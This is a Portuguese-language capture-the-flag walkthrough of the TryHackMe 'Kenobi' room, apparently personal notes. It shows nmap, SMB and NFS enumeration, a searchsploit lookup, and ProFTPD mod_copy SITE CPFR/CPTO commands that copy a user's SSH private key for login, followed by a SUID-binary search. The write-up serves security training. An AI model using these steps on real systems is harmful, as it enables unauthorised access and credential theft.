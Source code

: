 Refazendo essa sala do zero e anotando os comandos, pois ainda não a finalizei.

# Tarefa 1

Primeiramente, comecei realizando um escaneamento nessa máquina com o nmap para saber quais portas e quantas delas estão abertas.

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-02 18:41 -03
Nmap scan report for 10.10.89.35
Host is up (0.28s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/2%OT=21%CT=1%CU=32923%PV=Y%DS=2%DC=I%G=Y%TM=61FAFAAF
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%II=I%TS=8)SEQ(SP=10
OS:4%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(O1=M505ST11NW6%O2=M505ST11NW6%O3
OS:=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)WIN(W1=68DF%W2=6
OS:8DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW
OS:6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.13 seconds
```

Descobri assim que o número de portas abertas é 7

# Segunda tarefa

![[Pasted image 20220202184622.png]]

Seguindo a explicação dada pelo tryhackme, eu utilizei o comando que eles disponibilizaram para enumerar os equipamentos que estão sendo compartilhados com a máquina.

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.89.35
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-02 18:47 -03
Nmap scan report for 10.10.89.35
Host is up (0.29s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.89.35\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.89.35\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.89.35\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 45.01 seconds
```

Vi acima que haviam 3 ips que estavam sendo conectados com a máquina, que é a primeira resposta do desafio.

![[Pasted image 20220202185112.png]]

Utilizei o comando que o exercício pedia:

```
mbclient //10.10.89.35/anonymous
```

```
smb: \> ls
  .                                   D        0  Wed Sep  4 07:49:09 2019
  ..                                  D        0  Wed Sep  4 07:56:07 2019
  log.txt                             N    12237  Wed Sep  4 07:49:09 2019

                9204224 blocks of size 1024. 6877112 blocks available

```

Vi que havia um arquivo log.txt. Por isso, usei o comando smbget para copiar esse arquivo na minha máquina.

![[Pasted image 20220202190007.png]]

```
smbget -R smb://10.10.89.35/anonymous
```

Ao copiar o arquivo, eu o abri para ver o que havia nele e encontrei a resposta para a porta FTP

![[Pasted image 20220202190252.png]]

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.89.35
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-02 19:03 -03
Nmap scan report for 10.10.89.35
Host is up (0.26s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836524.0  6877104.0  22%   16.0T        32000
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount: 
|_  /var *

Nmap done: 1 IP address (1 host up) scanned in 4.57 seconds
```

Assim, descobri que a resposta seria /var

![[Pasted image 20220202190620.png]]

Agora o exercício pede que usemos o netcat para realizar os primeiros exercícios

Comecei rodando o comando:

```
nc 10.10.89.35 21 
```

Isto me respondeu com a seguinte saída:

```
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.89.35]
```

Ao visualizar a versão, o exercício me pediu para ver quantos exploits existiam para o ProFTPD na versão 1.3.5. Para realizar tal ação, utilizei o comando:

```
searchsploit ProFTPD 1.3.5
```

E isso me retornou a seguinte saída:

```
------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)               | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                     | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                 | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                               | linux/remote/36742.txt
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```

Que dá um total de 4 exploits.

![[Pasted image 20220202191507.png]]
explicação do exploits [aqui](http://www.proftpd.org/docs/contrib/mod_copy.html)

Em seguida, o exercício me pediu para copiar a chave privada com o seguinte comando:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
```

```
SITE CPTO /var/tmp/id_rsa
```

![[Pasted image 20220202192501.png]]

Depois disso, eu copiei o arquivo id_rsa e rodei o seguinte comando:

```
sudo chmod 600 id_rsa
```

e depois acessei o servidor ssh

```
ssh -i id_rsa kenobi@10.10.239.150
```

Após isso, abri o arquivo texto dele e lá estava a flag.

# Quarta etapa

![[Pasted image 20220202193433.png]]

To search the a system for these type of files run the following: 

```
find / -perm -u=s -type f 2>/dev/null
```

Após isso, notei um arquivo estranho cujo o nome é /usr/bin/menu e usando o comando:

```
/usr/bin/menu
```

Eu executei o programa mostrando um menu com 3 opções.

![[Pasted image 20220202201419.png]]

Apenas segui as instruções do site e cheguei na flag